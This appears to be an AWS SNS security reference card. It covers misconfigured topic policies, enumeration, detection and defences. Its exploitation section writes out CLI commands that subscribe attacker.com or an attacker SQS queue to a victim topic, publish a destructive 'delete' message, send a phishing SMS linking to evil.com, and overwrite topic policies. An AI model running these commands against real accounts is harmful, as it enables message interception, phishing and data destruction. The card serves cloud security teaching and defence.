

#  AWS SNS Security



> **Category**: MESSAGING

Simple Notification Service (SNS) enables pub/sub messaging to Lambda, SQS, HTTP endpoints, email, and SMS. Misconfigured topic policies can lead to data interception and unauthorized notifications.

## Quick Stats

| Risk Level | Pattern | Architecture | Delivery |
| --- | --- | --- | --- |
| **MEDIUM** | **Pub/Sub** | **Fan-Out** | **Push** |

## Service Overview

### Topics & Publishers

Topics are logical access points. Publishers send messages to topics. Topic policies control who can publish and subscribe. Messages can be filtered per subscription.

> Delivery: Lambda, SQS, HTTP/S, Email, SMS, mobile push, Kinesis Firehose

### Subscriptions

Subscribers receive messages from topics. Subscriptions require confirmation (except SQS/Lambda). Cross-account subscriptions enable data sharing - and potential abuse.

> Protocols: lambda, sqs, http, https, email, email-json, sms, application, firehose

## Security Risk Assessment

`██████░░░░` **6.0/10** (HIGH)

SNS topic policy misconfigurations can allow attackers to subscribe and intercept messages, inject malicious messages, or abuse notification channels for phishing.

## ⚔️ Attack Vectors

### Message Interception

- Subscribe to sensitive topics
- Add HTTP endpoint subscription
- Create cross-account subscription
- Intercept security notifications
- Capture OTP/2FA codes via SMS topics

### Message Injection

- Publish to misconfigured topics
- Inject malicious payloads to Lambda
- Trigger downstream actions via SNS
- Send phishing emails/SMS
- Abuse notification for spam

## ⚠️ Misconfigurations

### Topic Policy Issues

- Principal: * with no conditions
- Allow SNS:Subscribe to anyone
- Allow SNS:Publish to anyone
- Missing source account conditions
- Overly permissive cross-account access

### Encryption & Logging

- Messages not encrypted (no SSE)
- Missing CloudTrail data events
- No dead-letter queue for failures
- Missing subscription confirmation
- Unvalidated HTTP endpoints

## 🔍 Enumeration

**List All Topics**
```bash
aws sns list-topics
```

**Get Topic Attributes**
```bash
aws sns get-topic-attributes --topic-arn arn:aws:sns:us-east-1:123456789012:my-topic
```

**List Subscriptions**
```bash
aws sns list-subscriptions-by-topic --topic-arn arn:aws:sns:us-east-1:123456789012:my-topic
```

**Get Subscription Attributes**
```bash
aws sns get-subscription-attributes --subscription-arn arn:aws:sns:us-east-1:123456789012:my-topic:xxx
```

**Check Data Protection Policy**
```bash
aws sns get-data-protection-policy --resource-arn arn:aws:sns:us-east-1:123456789012:my-topic
```

## 📬 Subscription Attacks

### Unauthorized Subscription

- Subscribe your endpoint to capture messages
- Use HTTP webhook to intercept data
- Cross-account SQS subscription
- Add email subscription for alerts
- Subscribe Lambda for processing

### Subscription Confirmation Bypass

- SQS/Lambda don't need confirmation
- Email/HTTP require user action
- Look for auto-confirm patterns
- Exploit confirmation token leakage
- Target misconfigured raw delivery

> **Tip:** If you can add SQS subscriptions, no confirmation is needed - messages flow immediately.

## 💉 Message Injection

### Injection Scenarios

- Publish to trigger Lambda functions
- Inject malicious JSON payloads
- Trigger downstream SQS processing
- Send fake alerts to response teams
- Abuse notification for social engineering

### Impact

- Execute code in Lambda subscribers
- Corrupt data in processing pipelines
- Denial of service via message flood
- Trigger false security alerts
- Phishing via legitimate SNS channels

## 🛡️ Detection

### CloudTrail Events

- Subscribe - new subscription created
- Publish - message published
- SetTopicAttributes - policy changed
- CreateTopic - new topic created
- ConfirmSubscription - sub confirmed

### Indicators of Compromise

- Subscriptions from unknown accounts
- HTTP endpoints to external domains
- Bulk subscription creation
- Topic policy modifications
- Unusual publish patterns

## Exploitation Commands

**Subscribe HTTP Endpoint**
```bash
aws sns subscribe \\
  --topic-arn arn:aws:sns:us-east-1:VICTIM:alerts \\
  --protocol https \\
  --notification-endpoint https://attacker.com/capture
```

**Subscribe Cross-Account SQS**
```bash
aws sns subscribe \\
  --topic-arn arn:aws:sns:us-east-1:VICTIM:data-topic \\
  --protocol sqs \\
  --notification-endpoint arn:aws:sqs:us-east-1:ATTACKER:capture-queue
```

**Publish Message to Topic**
```bash
aws sns publish \\
  --topic-arn arn:aws:sns:us-east-1:TARGET:process-queue \\
  --message '{"action":"delete","target":"*"}' \\
  --message-attributes '{"Type":{"DataType":"String","StringValue":"Command"}}'
```

**Send Phishing SMS**
```bash
aws sns publish \\
  --phone-number "+1234567890" \\
  --message "Your AWS account requires verification: https://evil.com/login"
```

**Check Topic Policy**
```bash
aws sns get-topic-attributes \\
  --topic-arn arn:aws:sns:us-east-1:123456789012:my-topic \\
  --query 'Attributes.Policy' | jq -r . | jq .
```

**Modify Topic Policy (if permitted)**
```bash
aws sns set-topic-attributes \\
  --topic-arn arn:aws:sns:us-east-1:TARGET:topic \\
  --attribute-name Policy \\
  --attribute-value file://permissive-policy.json
```

## Policy Examples

### ❌ Dangerous - Public Topic

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": "*",
    "Action": ["SNS:Subscribe", "SNS:Publish"],
    "Resource": "arn:aws:sns:us-east-1:123456789012:my-topic"
  }]
}
```

*Anyone can subscribe and publish - full message interception and injection*

### ✅ Secure - Restricted Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::123456789012:root"},
    "Action": ["SNS:Subscribe", "SNS:Publish"],
    "Resource": "arn:aws:sns:us-east-1:123456789012:my-topic",
    "Condition": {
      "StringEquals": {
        "AWS:SourceOwner": "123456789012"
      }
    }
  }]
}
```

*Only same-account principals can interact with the topic*

### ❌ Risky - Cross-Account Subscribe

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "*"},
    "Action": "SNS:Subscribe",
    "Resource": "arn:aws:sns:us-east-1:123456789012:alerts",
    "Condition": {
      "StringEquals": {
        "SNS:Protocol": "sqs"
      }
    }
  }]
}
```

*Any account can subscribe SQS queues - no confirmation needed*

### ✅ Secure - Protocol & Account Restricted

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::TRUSTED_ACCOUNT:root"},
    "Action": "SNS:Subscribe",
    "Resource": "arn:aws:sns:us-east-1:123456789012:data-topic",
    "Condition": {
      "StringEquals": {
        "SNS:Protocol": "sqs",
        "SNS:Endpoint": "arn:aws:sqs:us-east-1:TRUSTED_ACCOUNT:approved-queue"
      }
    }
  }]
}
```

*Only specific account and queue can subscribe*

## Defense Recommendations

### 🔐 Enable Server-Side Encryption

Encrypt messages at rest with KMS.

```bash
aws sns set-topic-attributes \\
  --topic-arn arn:aws:sns:us-east-1:123456789012:my-topic \\
  --attribute-name KmsMasterKeyId \\
  --attribute-value alias/sns-key
```

### 🚫 Restrict Topic Policies

Never use Principal: * without conditions. Specify accounts and protocols.

### 📝 Enable CloudTrail Data Events

Log all SNS publish and subscribe operations for auditing.

### 🔒 Use Data Protection Policies

Detect and protect sensitive data in messages (PII, credentials).

```bash
aws sns put-data-protection-policy \\
  --resource-arn arn:aws:sns:...:topic \\
  --data-protection-policy file://policy.json
```

### ✅ Validate Subscriptions

Review subscriptions regularly. Remove unknown or suspicious endpoints.

### 🎯 Use Subscription Filter Policies

Limit what messages each subscriber receives to reduce exposure.

---

*AWS SNS Security Card*

*Always obtain proper authorization before testing*
